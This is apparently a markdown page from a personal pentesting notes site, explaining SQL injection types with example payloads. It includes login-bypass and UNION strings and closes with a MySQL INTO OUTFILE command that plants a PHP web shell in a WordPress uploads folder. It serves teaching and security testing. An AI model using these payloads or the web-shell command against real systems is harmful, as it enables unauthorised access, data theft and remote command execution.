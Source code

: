 ```yaml
---
title: SQL injection
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting,web 
---
```


# SQL injection

SQL stands for Structure Query Language.

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database:

+ to view data.
+ to retrieve it.
+ to modify it.
+ to delete it.
+ to compromise the infraestructure with what is known for instance as a denial of service attack.


A detailed Cheat sheet with manual union and blind attacks can be found in the [SQLi Cheat sheet for manual attack](sqli-manual-attack.md).

## Examples

1. Retrieving hidden data.
2. Subverting application logic.
3. UNION attacks.
4. Examining the database.
5. Blind SQL injection.



### Retrieving hidden data

Examples at a shopping application 

| Request URL | SQL Query | Explained |
| --- | --------- | ----------|
| http://insecure-website.com/products?category=Gifts | SELECT * FROM products WHERE category='Gift' AND release=1 | Restriction "released" is being used to hide products that are not released. Unreleased products will be presumably released=0 |
| http://insecure-website.com/products?category=Gifts'-- | SELECT * FROM products WHERE category='Gift'--' AND released=1 | Explained: Double dash sequence -- is a comment indicator in SQL which means that the rest of the query is interpretated as a comment. The application will display all the products in a category, being released or not. | 
| https://insecure-website.com/products?category=Gifts'+OR+1=1-- | SELECT * FROM products WHERE category='Gifts' OR 1=1--' AND released=1 | This will return all items where category is Gifts, or 1=1. Since 1=1 is always true, the query will return all items. | 


### Subverting application logic

| Request URL | SQL Query | Explained |
| ----------- | --------- | --------- |
| Login  |  SELECT * FROM users WHERE username="admin" AND password="lalalala" | Login process, probably with a POST method |
| Login: Adding admin'-- in the username and '' in the password field | SELECT * FROM users where username="admin'-- AND password='' | This query returns the user whose name is admin and succesfully logs the attacker as that user. |


### UNION attacks

In cases where the results of a SQL query are returned within the application responses, an attacker may try to retrieve data from others tables using the keyword UNION. They also can examine the existing database.



## Clasification

SQLi (for SQL injection) typically falls under three categories.


### 1. In-band SQLi / or Classic SQL injection

Attacks are sent from the same channel in which results are collected.


#### Error-based SQLi

The attacker performs actions that cause the database to produce error messages. The attacker can potentially use the data provided by these error messages to gather information about the structure of the database.


#### Union-based SQLi

This technique uses the UNION SQL operator.


### 2. Inferential (Blind) SQLi

The attacker sends data payloads to the server and observes the response and behaviour of the server to learn more about its structure. This method is called SQLi because the data is not transferred from the website database to the attacker.

Blind SQL injection relies on the response and behavioral pattern of the server to they are tipically slower to execute but may be just harmful.

#### Boolean-based (content-based) Blind SQLi

Inferential SQL injection technique that relies on sending a SQL query to the database which forces the application to return a different result depending on whether the query returns a TRUE or FLASE result.


#### Time-Based Blind SQLi

If you don't get a TRUE or FALSE response, sometimes you may infere if it is TRUE or FALSE based on time of response. Time-based SQL injection is a inferential SQL injection technique that relies on sending a SQL query to the database, which forces the database to wait for a specified amount of time (in seconds) before responding. The response time will indicate to the attacker whether the result of the query is TRUE or FALSE.


### 3. Out-of.Band SQLi

It's used when an attacjer is unabled to use the same channel to launch the attack and gather results. Out-of-band SQLi techniques would rely on the database server's ability to maje DNS or HTTP request to deliver data to an attacker.

Such is the case of Microsoft SQL Server's xp_dirtree command, which can be used to make DNS request to a server that an attacker controls, as well as Oracle Database's UTL_HTTP package, which can be used to send HTTP requests from SQL and PL/SQL ti a server that an attacker controls.


## DUAL

The DUAL is a special one row, one column table present by default in all Oracle databases. The owner of DUAL is SYS, but DUAL can be accessed by every user. This is a possible payload for SQLi:

```
'+UNION+SELECT+NULL+FROM+dual--
```

Oracle syntax requires the use of FROM, but some queries don't requires any table. For these case we use DUAL. Also Oracle doesn't allow the queries that employ information_schema.tables.


## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](index-attacks-tools-web-pentesting.md).
- Detailed **Cheat sheet** with manual union and blind attacks can be found in the [SQLi Cheat sheet for manual attack](sqli-manual-attack.md).


## Gaining a reverse shell from SQL injection

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql pannel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```